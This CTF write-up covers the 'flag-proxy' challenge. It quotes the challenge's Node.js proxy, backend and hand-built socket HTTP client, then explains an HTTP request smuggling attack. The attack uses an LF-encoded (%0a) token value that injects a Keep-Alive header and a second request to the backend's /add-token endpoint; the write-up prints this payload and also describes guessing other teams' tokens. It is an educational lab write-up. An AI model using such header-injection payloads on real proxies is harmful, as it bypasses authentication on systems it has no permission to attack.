





## Description
> I just added authentication to my flag service (server-back) thanks to a proxy (server-front), but a friend said it's useless...
> Site: http://flag-proxy.challs.teamitaly.eu

## TL;DR

Request Smuggling vulnerability in a proxy server using sockets to send http requests to backend.

## Complete Writeup

We receive a `flag-proxy.zip` that unzips to the following:
```
|-- server-back
|   |-- Dockerfile
|   |-- index.js
|   |-- package.json
|   `-- package-lock.json
|-- server-front
|   |-- Dockerfile
|   |-- http-client.js
|   |-- index.js
|   |-- package.json
|   `-- package-lock.json
|-- docker-compose.yml
```

Let's look at the **frontend** index.js first:

```typescript
import 'dotenv/config';
import express from 'express';
import { request } from './http-client.js';
const app = express();

app.use((req, res, next) => {
  let data = '';
  req.setEncoding('utf8');
  req.on('data', (chunk) => {
    data += chunk;
  });

  req.on('end', () => {
    req.body = data;
    next();
  });
});

app.get('/flag', (req, res) => {
  if (!req.query.token) {
    res.status(500).send('Missing token');
    return;
  }

  request(`http://${process.env.BACK}:8080/flag`, {method: 'GET',headers: {Authorization: `Bearer ${req.query.token}`,},})
    .then((response) => {
      res.send(response);
    })
    .catch((e) => {
      res.status(500).send('There has been an error with the request');
    });
});

app.get('/add-token', (req, res) => {
  if (!req.query.token) {
    res.status(500).send('Missing token');
    return;
  }

  if (!req.query.auth || req.query.auth !== process.env.AUTH) {
    res.status(500).send('Wrong auth');
    return;
  }

  request(
    `http://${process.env.BACK}:8080/add-token?token=${req.query.token}`,
    {
      method: 'GET',
    }
  )
    .then((response) => {
      res.send(response);
    })
    .catch((e) => {
      res.status(500).send('There has been an error with the request');
    });
});

app.listen(1337, () => {
  console.log('Listening on port 1337!');
});

```

The **backend** index.js looks as follows:

```typescript
import 'dotenv/config';
import express from 'express';
const app = express();

app.use((req, res, next) => {
  let data = '';
  req.setEncoding('utf8');
  req.on('data', (chunk) => {
    data += chunk;
  });

  req.on('end', () => {
    req.body = data;
    next();
  });
});

const tokens = [];

app.get('/flag', (req, res) => {
  const token = req.headers['authorization'].split(' ')[1];
  if (tokens.includes(token)) {
    res.send(process.env.FLAG);
  } else {
    res.status(500).send('Invalid token');
  }
});

app.get('/add-token', (req, res) => {
  if (req.query.token === undefined || req.query.token?.length < 10) {
    res.send('Token too short');
  } else {
    tokens.push(req.query.token);
    res.send('OK');
  }
});

app.listen(8080, () => {
  console.log('Listening on port 8080!');
});

```

So, let's summarize the most important bits:

First of all, the frontend implements an http client (`http-client.js`) using sockets instead of using a library. That already seems like a bad idea. But let's first look at what the rest of the code does (just note that the `request()` function in the frontend is from this http client).

The frontend as well as the backend implement two `GET` endpoints each:
- frontend:
    - `/flag` expecting a `token` parameter
        - the `token` is sent to the backend as follows:
        `request('http://${process.env.BACK}:8080/flag', {method: 'GET',headers:{Authorization: 'Bearer ${req.query.token}',},})`
    - `/add-token` expecting a `token` and an `auth` parameter
        - the `auth` parameter is checked against an environment variable `process.env.AUTH` that is (obviously) redacted in the .yaml file
        - if the auth check is passed, the `token` is sent to the backend as follows:
        `request('http://${process.env.BACK}:8080/add-token?token=${req.query.token}'',{method: 'GET',})`
        
- backend
    - `/flag` expecting a `token` parameter
        - If the provided token is in a list of saved tokens, the flag is sent back
    - `/add-token` expecting a `token` parameter
        - The provided token is added to the list of saved tokens

So basically as a user...
- one can communicate with the backend `/flag` through the frontend `/flag` endpoint, where the backend checks if the provided (access) token is one from its list.
- one can communicate with the backend `/add-token` through the frontend `/add-token` endpoint, where the frontend checks if the provided auth parameter is matching a hidden value.

Both ways seem blocked. I have thought about bypassing them but since we have a very sus socket http-client, let's see what that does:

```typescript
import { Socket } from 'net';

const splitWithTail = (str, delim, count) => {
  const parts = str.split(delim);
  const tail = parts.slice(count).join(delim);
  const result = parts.slice(0, count);
  result.push(tail);
  return result;
};

const parseResponse = (response) => {
  const headers = {};
  const [head, body] = response.split('\r\n\r\n');
  const [statusLine, ...headerLines] = head.split('\r\n');
  const [httpVersion, statusCodeString, statusMessage] = splitWithTail(statusLine, ' ', 2);
  const statusCode = parseInt(statusCodeString, 10);
  headerLines.forEach((line) => {
    const [key, value] = line.split(': ');
    headers[key] = value;
  });
  return {
    httpVersion,
    statusCode,
    statusMessage,
    headers,
    body
  };
};

export const request = async (url, options) => {
  const parsedUrl = new URL(url);

  const client = new Socket();
  client.setEncoding('utf8');
  client.connect(parsedUrl.port || 80, parsedUrl.hostname, () => {

    let request = '';
    request += `${options.method} ${parsedUrl.pathname + parsedUrl.search} HTTP/1.0\r\n`;
    request += `Host: ${parsedUrl.host}\r\n`;
    for (const header in options.headers) {
      if (header.includes('\r\n') || options.headers[header].includes('\r\n')) {
        continue;
      }
      request += `${header}: ${options.headers[header]}\r\n`;
    }
    if (options.body) {
      request += `Content-Type: text/plain\r\n`;
      request += `Content-Length: ${options.body.length}\r\n`;
    } else {
      request += `Content-Length: 0\r\n`;
    }
    request += `Connection: close\r\n`;
    request += `\r\n`;
    if (options.body) {
      request += options.body;
    }

    client.write(request);

  });

  let response = '';

  client.on('data', (data) => {
    response += data;
  });

  return new Promise((resolve, reject) => {
    client.on('error', (e) => {
      reject(e);
    });

    client.on('close', function () {
      resolve(parseResponse(response));
    });
  });
};
```

Now as one can see, the implementation builds an HTTP request **as a string**, that is then sent to the backend via socket.

Exploring the code a little in combination with what we know from the rest of the frontend, we find:
- index.js, line 19-32 (the `/flag` endpoint) - Notice that the token value (controllable by a potential attacker) is being passed to the http-client `request()` function


```typescript
app.get('/flag', (req, res) => {
  if (!req.query.token) {
    res.status(500).send('Missing token');
    return;
  }

  request(`http://${process.env.BACK}:8080/flag`, {method: 'GET',headers: {Authorization: `Bearer ${req.query.token}`,},})
    .then((response) => {
      res.send(response);
    })
    .catch((e) => {
      res.status(500).send('There has been an error with the request');
    });
});
```
- http-client.js, line 30-53 (part of `request()` method; here we see that our token value gets written to the http `request` string; with no filter except line-breaks):


```typescript
export const request = async (url, options) => {
  const parsedUrl = new URL(url);

  const client = new Socket();
  client.setEncoding('utf8');
  client.connect(parsedUrl.port || 80, parsedUrl.hostname, () => {

    let request = '';
    request += `${options.method} ${parsedUrl.pathname + parsedUrl.search} HTTP/1.0\r\n`;
    request += `Host: ${parsedUrl.host}\r\n`;
    for (const header in options.headers) {
      if (header.includes('\r\n') || options.headers[header].includes('\r\n')) {
        continue;
      }
      request += `${header}: ${options.headers[header]}\r\n`;
    }
    if (options.body) {
      request += `Content-Type: text/plain\r\n`;
      request += `Content-Length: ${options.body.length}\r\n`;
    } else {
      request += `Content-Length: 0\r\n`;
    }
    request += `Connection: close\r\n`;
    request += `\r\n`;
```

Let's have a look at what `parsedURL` actually looks like:


So we know that the frontend `/flag` endpoint embeds our provided `token` value into an `Authorization` header of the `request` string. In order to understand how we can leverage this for an exploit, let's go through these steps:

1. I send a GET request to the frontend to `/flag?token=tokenValue123`
2. The frontend builds the request string resulting into the following request:


```
GET /flag
Host: back:8080
Authorization: Bearer tokenValue123   <--- this is our injection point
Content-Type: text/plain
Content-Length: 0
Connection: close
```


3. Instead of `tokenValue123`, we now put a carefully crafted payload to smuggle a second request to the backend's `/add-token` endpoint. Our goal is to have the frontend craft this request in its `request` string:


```
GET /flag
Host: back:8080
Authorization: Bearer tokenValue123    <--- start injection at token value
Content-Type: text/plain
Content-Length: 0
Connection: Keep-Alive


GET /add-token?token=ourNewAccessToken
Host: back:8080                        <--- stop injection after this line
Content-Type: text/plain
Content-Length: 0
Connection: close


```

Important: Note the `Connection: Keep-Alive` Header on the first request. This allows for the connection to stay open and receive additional requests. If it would stay on `Connection: close` as the http-client adds it, the exploit would not work:


-----------------------------------
**Note**

This is where I got stuck on the challenge. I knew I needed to smuggle a request generating a token, but unfortunately I failed at implementing a working exploit. I struggled with correctly putting linebreaks that worked and I also did not know that the `Connection: Keep-Alive` was necessary. However, I still was able to solve the challenge by fuzzing token values that other teams might have smuggled to the backend. Since the token needed to be 10 chars long minimum, I figured some teams might have used very simple tokens like `aaaaaaaaaa` or `1111111111`. After trying like 5 tokens, I got lucky with `1234567890`:



I describe how the actual payload had to look like below, which I learned from discussions on the discord after the event was over. Also writing it up helps solidify the knowledge gained, even though I wasnt able to solve the challenge myself (at least not the right way).

-----------------------------------

Back to the actual exploit: So how do we handle linebreaks? The HTTP specification says CRLF.
However, the http-client has a filter for exactly that on line 41:
`if (header.includes('\r\n') || options.headers[header].includes('\r\n')) { continue; }`
However:
> According to the HTTP spec a server can accept only \n as a line separator
> It's not suggested, but it can be done

So we can use the payload from above with LF (url encoded = `%0a`) line separator.

As said above, this will be the HTTP inside our token value:

```
tokenValue123
Content-Type: text/plain
Content-Length: 0
Connection: Keep-Alive


GET /add-token?token=ourNewAccessToken
Host: back:8080
```

Replacing line separator with `%0a` and space with `+` gives:

`tokenValue123%0aContent-Type:+text/plain%0aContent-Length:+0%0aConnection:+Keep-Alive%0a%0a%0aGET+/add-token?token=ourNewAccessToken%0aHost:+back:8080
`

When using this payload, we get the following response:



Now we can get the flag with the token we just set:



`flag{sanity_check}`

## Lessons learned
I learned details about HTTP specification and that request smuggling vulnerabilities can arise not only from Content Length vs. Transfer Encoding Headers but also from other circumstances in proxy/backend server architectures that, when sending one request to the proxy server, enable crafting a second request inside of the first one. 

## Additional notes and mitigation of the vulnerability

This exploit was disclosed on the hackerone bug bounty platform for the node.js version 17.8.0:
[https://hackerone.com/reports/1524692](https://hackerone.com/reports/1524692)

Mitigating the vulnerability could be achieved by updating node.js version.

The following is interesting to remember for HTTP/2 (since the challenge was not using HTTP/2 though, it did not affect the exploit):
